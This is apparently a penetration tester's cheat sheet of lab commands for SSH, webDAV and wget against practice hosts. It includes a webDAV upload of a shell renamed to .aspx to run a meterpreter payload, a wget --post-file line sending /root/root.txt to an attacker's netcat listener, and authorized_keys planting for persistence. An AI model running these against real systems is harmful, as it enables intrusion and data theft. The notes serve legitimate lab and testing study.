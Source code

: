 
# Clients:
----------
    - ssh(22) for using older ciphers
        - Using a different suite
            > ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc root@10.10.10.7
            - or edit ~/.ssh/config
                - add the following
                - Host 10.10.10.76
                    KexAlgorithms +diffie-hellman-group1-sha1
                - sudo systemctl restart sshd
        - Using a differnt port
            > ssh -p 22022 root@10.10.10.76
        - Using a users private key
            - Copy private key to a file. Name it whatever. Make sure to get rid of any extra spaces. Keep the "BEGIN" and "END" comments in the file.
            > chmod 600 <file name>
            > ssh amrois@10.10.10.43 -i privkeyfile.rsa
        - Create a user with no password, SSH to that user (on kali from victem), good for scping files over
            > vi /etc/ssh/sshd_config
                - Change "PasswordAuthentication yes"
                - Change "PermitEmptyPasswords yes"
            - save and restart sshd
                > systemctl restart sshd
            - create user with no password
                > adduser removeme
                > sudo passwd -d removeme
            - SSh to yourself with no password 
                > ssh removeme@<YourkaliIP> -o StrictHostKeyChecking=accept-new"
                >  ssh max@192.168.69.100 -i id_rsa scp -o "StrictHostKeyChecking=accept-new" -P 222 removeme@192.168.49.69:/tmp/authorized_keys ./.ssh/authorized_keys
        - Create .ssh dir and authorized keys for easy access
            > mkdir ~/.ssh/; touch ~/.ssh/authorized_keys; chmod 700 ~/.ssh; chmod 600 ~/.ssh/authorized_keys
            - Add your id_rsa.pub key to authorized keys
            - should be able to ssh to the system with no password

    - webDAV(80) cadaver client commands
        - Make sure nmap scan comes back with webdav
        - When performing a "GET" file format must be supported (TXT for output files)
        > cadaver http://10.10.10.15
        > PUT shell.txt
        > MOVE shell.txt shell.aspx
        - If you cant MOVE do the following:
            > put tcp443meterp.asp tcp443meterp.txt
            > copy tcp443meterp.txt tcp443meterp.asp;.txt
    - WGET(80) client commas
        > wget http://10.10.10.10/filetodownload.txt -O /tmp/filetodownload.txt
        > chmod 777 /tmp/filetodownload.txt
        - download and output to specific place
            > wget -O google-wget.txt www.google.com
            > sudo wget -O /root/troll http://10.10.14.18:5555/troll
        - send contents of a file with wget to nc 
            - On listening server
                > sudo nc -nlvp 80 > root.txt
            - Onosystem sending
                > sudo /usr/bin/wget --post-file=/root/root.txt 10.10.14.18
        k download entire site:
            wget --recursive --page-requisites --adjust-extension --span-hosts --convert-links --restrict-file-names=windows --domains yoursite.com --no-parent http://10.10.10.75/nibbleblog/
            wget \
                --recursive \ # Download the whole site.
                --page-requisites \ # Get all assets/elements (CSS/JS/images).